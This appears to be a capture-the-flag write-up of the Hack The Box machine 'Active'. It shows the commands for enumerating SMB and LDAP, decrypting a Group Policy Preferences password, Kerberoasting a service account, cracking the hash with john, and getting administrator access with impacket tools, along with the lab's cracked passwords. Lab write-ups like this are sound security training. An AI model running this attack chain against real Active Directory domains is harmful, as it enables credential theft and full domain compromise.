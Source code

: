 # Active

Tags: AD-Win
Level: Easy
Status: Done
Date: December 19, 2023

### Nmap

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled.png)

Open Ports are 

88 kerberos

389 ldap

start with ldap search

### Enumeration

Starting ldapsearch

ldapsearch -x -H ldap://10.10.10.100 -D '' -w '' -b "DC=active,DC=htb”

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%201.png)

No interesting information is found.

SMBClient - no information found

```bash
smbclient -L 10.10.10.100
smbclient //10.10.10.100
smbclient ///10.10.10.100
smbclient ////10.10.10.100
smbclient //10.10.10.100/guest
```

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%202.png)

nbtscan

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%203.png)

SMBMAP

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%204.png)

crackmapexec - no much information

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%205.png)

rpcclient - no informaton

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%206.png)

windasearch.py

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%207.png)

nslookup

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%208.png)

Let’s focus on **SMB shares Replication**

```bash
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%209.png)

Need to use -d debug option no useful information

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2010.png)

using smbclient

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2011.png)

using smbmap

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2012.png)

downloaded Groups.xml file

Using **below command moved to one by one folder and finally found Groups.xml file downloaded using get command** 

```bash
smbclient //10.10.10.100/Replication
```

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2013.png)

userName=active.htb\SVC_TGS 

cpassword: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

Based on this information searching in google like “**windows group policy password decrypt**” landed on this page 

[Credential Dumping: Group Policy Preferences (GPP) - Hacking Articles](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)

In kali linux we have BuildIn tool is **gpp-decrypt**

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2014.png)

Now username : password 

SVC_TGS : GPPstillStandingStrong2k18

**Download the data from this directory using recurse ON, prompt OFF, mget ***

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2015.png)

the **active.htb downloaded in local folder**

Finding users using [GetADUsers.py](http://GetADUsers.py) **enter the password correctly** 

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2016.png)

It has 4 users Administrator, Guest, krbtgt, SVC_TGT 

Trying login into administrator account using psexec.py

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2017.png)

Because we don’t have writable permission on shares failed

Let’s try smbmap

```bash
smbmap -u active.htb/svc_tgt -p GPPstillStandingStrong2k18 -H 10.10.10.100 # Not Worked
smbmap -u active.htb//svc_tgt -p GPPstillStandingStrong2k18 -H 10.10.10.100 # Not Worked
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 # Working
```

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2018.png)

### User flag

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2019.png)

Using ldapsearch finding users

```bash
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
python3 GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
python3 GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
john --wordlist=rockyou.txt hash
python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2020.png)

Recently **SVC_TGS user is logged in date and time of Administrator** details

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2021.png)

Using ldapsearch **find user SPNs - Service Principal Names**

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2022.png)

Find SPNs using [GetUserSPNs.py](http://GetUserSPNs.py) impacket file

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2023.png)

Find SPNs using [GetUserSPNs.py](http://GetUserSPNs.py) impacket file finding the request

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2024.png)

Using john crack the password

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2025.png)

User name : password

Administrator : Ticketmaster1968

### Root flag

![Untitled](Active%20ec37fc6f605744359081fcff7bf2d03d/Untitled%2026.png)